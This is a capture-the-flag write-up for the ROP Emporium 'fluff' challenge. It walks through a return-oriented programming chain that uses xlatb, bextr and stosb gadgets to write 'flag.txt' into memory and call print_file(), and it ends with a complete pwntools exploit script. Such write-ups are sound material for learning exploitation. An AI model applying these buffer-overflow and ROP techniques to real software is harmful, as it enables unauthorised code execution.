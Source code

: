 # ROP Emporium: Fluff

## Problem Description

> There's not much more to this challenge, we just have to think about ways to move data into the registers we want to control. Sometimes we'll need to take an indirect approach, especially in smaller binaries with fewer available gadgets like this one. If you're using a gadget finder like ropper, you may need to tell it to search for longer gadgets. As usual, you'll need to call the `print_file()` function with a path to the flag as its only argument. Some useful(?) gadgets are available at the `questionableGadgets` symbol.

---

## Objective

Call `print_file()` with a pointer to the string `'flag.txt'` stored in memory. The difficulty arises because we aren't given a `mov` gadget to directly write strings into memory.

## Given Gadgets

The `questionableGadgets` section provides the following:

```nasm
0x00400628      xlatb
0x00400629      ret
0x0040062a      pop     rdx
0x0040062b      pop     rcx
0x0040062c      add     rcx, 0x3ef2
0x00400633      bextr   rbx, rcx, rdx
0x00400638      ret
0x00400639      stosb   byte [rdi], al
0x0040063a      ret
0x0040063b      nop     dword [rax + rax]
```

### Gadget 1: `xlatb; ret`

```
al = [rbx + al]
```

### Gadget 2: `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx`

```
bextr rbx, rcx, rdx
```

- **bextr syntax**: `bextr destination, source, control`
- **rdx (control)**: bits[7:0] = start bit, bits[15:8] = length
- `rdx = 0x0804` ⇒ starting at bit 4, take 8 bits ⇒ Not useful for full 64-bit write
- Instead, use `rdx = 0x4000` ⇒ start = 0, length = 64 bits

### Gadget 3: `stosb; ret`

```
[rdi] = al
```

---

## Strategy

1. **Find Addresses of Characters**

We use the following script to find addresses of ASCII characters in the binary:

```python
import os

str = 'flag.txt'

for c in str:
    hexcode = hex(ord(c)).strip('0x')
    os.system("ROPgadget --binary fluff --opcode "+hexcode+" | tail -n1")
```

(Credit to [b4nng](https://b4nng.github.io/) for the idea.)

2. **Calculate Values**

For each character `c`, get the address of `c` in the binary. Then:

- Calculate `rbx = addr - al`
- Subtract `offset = 0x3ef2` because the gadget adds it to `rcx`
- Use `bextr` to move the calculated address into `rbx`
- `xlatb` will load the target char into `al`
- Store `al` to `[rdi]` using `stosb`

3. **Write the string to **``

Repeat step 2 for each character of `'flag.txt'`, updating `rdi` accordingly.

4. **Call **``

After writing the full string, pop the address of `.bss` into `rdi` and call `print_file()`.

---

## Debugging Tips

Use `pwndbg` to monitor `.bss` and register values:

```python
gdb.attach(p, gdbscript="""
b *0x0040062a  # bextr
b *0x400510    # print_file
c
""")
```

Use `x/32x *<addr of .bss>` to view `.bss` contents.

Initial `al` value = `0xb` (found via pwndbg).

---

## Final Payload

```python
from pwn import *

p = process('./fluff')

junk = b'A'*40

print_file = p64(0x00400510)
bss_addr = 0x00601038

pop_rdi = p64(0x00000000004006a3)  # pop rdi ; ret
xlat = p64(0x0000000000400628)     # xlatb ; ret
stosb = p64(0x0000000000400639)    # stosb byte ptr [rdi], al ; ret
pop_rdx_rcx_bextr = p64(0x0040062a) # rcx + 0x3ef2

offset = 0x3ef2

char_addrs = {
    'f': p64(0x004006a6),
    'l': p64(0x00400405),
    'a': p64(0x004005d2),
    'g': p64(0x004007a0),
    '.': p64(0x004006a7),
    't': p64(0x004006ce),
    'x': p64(0x004007bc)
}

flag_txt = ['f', 'l', 'a', 'g', '.', 't', 'x', 't']

rdx_val = 0x4000  # start=0, length=64
al = 0xb          # initial value of al

payload = junk
payload += pop_rdi
payload += p64(bss_addr)

for c in flag_txt:
    addr = u64(char_addrs[c])
    rbx_val = addr - al

    payload += pop_rdx_rcx_bextr
    payload += p64(rdx_val)
    payload += p64(rbx_val - offset)
    payload += xlat
    payload += stosb

    al = ord(c)

payload += pop_rdi
payload += p64(bss_addr)
payload += print_file

p.sendline(payload)
p.interactive()
```

---

## Conclusion

This challenge was a lot of fun. I actually learned some new instructions and had to really bend assembly logic to write into memory without using `mov`. Really enjoyed this one, and I’m looking forward to the next challenge even more!

